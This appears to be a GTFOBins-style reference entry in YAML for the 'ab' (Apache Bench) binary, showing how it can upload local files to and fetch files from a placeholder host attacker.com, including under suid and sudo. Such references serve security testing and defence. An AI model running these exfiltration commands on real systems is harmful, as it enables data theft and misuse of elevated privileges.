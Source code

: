 functions:
  file-upload:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        ab -p $LFILE $URL
  file-download:
    - description: Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.
      code: |
          URL=http://attacker.com/file_to_download
          ab -v2 $URL
  suid:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        ./ab -p $LFILE $URL
  sudo:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        sudo ab -p $LFILE $URL
---
